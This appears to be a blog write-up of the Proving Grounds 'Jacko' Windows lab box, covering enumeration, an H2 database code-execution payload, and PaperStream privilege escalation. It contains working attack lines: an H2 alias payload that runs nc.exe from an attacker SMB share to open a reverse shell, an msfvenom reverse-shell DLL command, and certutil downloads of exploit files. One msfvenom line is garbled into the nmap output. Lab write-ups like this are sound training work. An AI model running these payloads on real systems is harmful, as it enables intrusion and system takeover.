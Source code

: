 ```yaml
---
layout: post
title: Proving Grounds - Jacko (Intermediate)
---
```


# Introduction 

This is an Intermediate Windows box on Proving Grounds.

# Enumeration
```bash
$ sudo nmap --min-rate 100 -sV -sC -T4  192.168.225.66  -oA nmap/versions -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-25 08:49 EDT
Nmap scan report for ip-192-168-225-66.eu-west-1.compute.internal (192.168.225.66)
Host is up (0.0070s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: H2 Database Engine (redirect)
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-25T12:49:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.13 secondsmsfvenom -p windows/x64/shell_reverse_tcp -f dll -o UninOldIS.dll LHOST=192.168.49.225 LPORT=
```

Checking over all ports, we find one more open at 7680.
```bash
$ sudo nmap --min-rate 100 -p- -T4  192.168.225.66  -oA nmap/all 
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-25 08:49 EDT
Nmap scan report for ip-192-168-225-66.eu-west-1.compute.internal (192.168.225.66)
Host is up (0.011s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
7680/tcp open  pando-pub
8082/tcp open  blackice-alerts

Nmap done: 1 IP address (1 host up) scanned in 189.45 seconds
```

## Webservers

H2 database console at port 8082

JSP based
![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425091314.png)

Dirsearch - think these are FPs
```bash
[09:02:33] 200 -  937B  - /.do
[09:02:43] 200 -  937B  - /admin.do
[09:02:43] 200 -  937B  - /admin/login.do
[09:02:55] 200 -    4KB - /favicon.ico
[09:03:03] 200 -  937B  - /patient/login.do
[09:03:03] 200 -  937B  - /patient/register.do
[09:03:05] 200 -  937B  - /physican/login.do
```

port 80 - IIS 10

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425091527.png)

Seems to just contain the Tutorial and License etc. Nothing interesting.

Using dirsearch for further enumeration:
```bash
[09:07:53] 301 -  150B  - /html  ->  http://192.168.225.66/html/     (Added to queue)
[09:08:09] 301 -  150B  - /help  ->  http://192.168.225.66/help/     (Added to queue)
[09:08:10] 301 -  152B  - /images  ->  http://192.168.225.66/images/     (Added to queue)
[09:08:10] 200 -    2KB - /index.html
[09:08:22] 301 -  150B  - /text  ->  http://192.168.225.66/text/     (Added to queue)
[09:08:26] Starting: html/
[09:08:30] 200 -   51KB - /html/CHANGELOG.html
[09:08:30] 200 -   51KB - /html/CHANGELOG.HTML
[09:08:30] 200 -   51KB - /html/Changelog.html
[09:08:30] 200 -   51KB - /html/ChangeLog.html
[09:08:38] 200 -   51KB - /html/changelog.html
[09:08:41] 200 -    3KB - /html/download.html
[09:08:43] 200 -   13KB - /html/faq.html
[09:08:44] 301 -  157B  - /html/images  ->  http://192.168.225.66/html/images/     (Added to queue)
[09:08:45] 200 -    4KB - /html/installation.html
[09:08:46] 200 -   22KB - /html/links.html
[09:08:47] 200 -    1KB - /html/main.html
[09:08:53] 200 -    8KB - /html/search.js
[09:09:00] Starting: help/
[09:09:34] Starting: images/
[09:09:49] 200 -    4KB - /images/favicon.ico
[09:10:06] Starting: text/
[09:10:39] Starting: html/images/
```

Changelog shows version of H2 -  **Version 1.4.199** (2019-03-13)

We can login to the database with a blank password

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425092949.png)


Code execution vulnerability in H2

https://www.exploit-db.com/exploits/49384

Host nc.exe on SMB server 
```bash
sudo impacket-smbserver data -smb2support  .
```

```java
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.49.225/data/nc.exe -e cmd.exe 192.168.49.225 8082").getInputStream()).useDelimiter("\\Z").next()');
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425094238.png)

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425094250.png)

# Post Exploitation

Get shell - weirdly doesn't have the command whoami

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425094342.png)

We can fix this by setting PATH

```
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425094707.png)

Host Name:                 JACKO
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.18363 N/A Build 18363

Running winPEAS
![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425100928.png)

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425101156.png)


It is always a good idea to check the Program Files directories during the enumeration phase to gather information on any unusual software that may be installed on the machine. Here in `Program Files (x86)` we can see PaperStream IP:

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425101322.png)

[PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation](https://www.exploit-db.com/exploits/49382)

Upload PS script and DLL via certutil
```bash
certutil -urlcache -split -f http://192.168.49.225/49382.ps1 49382.ps1
certutil -urlcache -split -f http://192.168.49.225/UninOldIS.dll UninOldIS.dll
```

```powershell
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass C:\Users\tony\Documents\49382.ps1
```
![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425110206.png)

System shell
![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425110047.png)

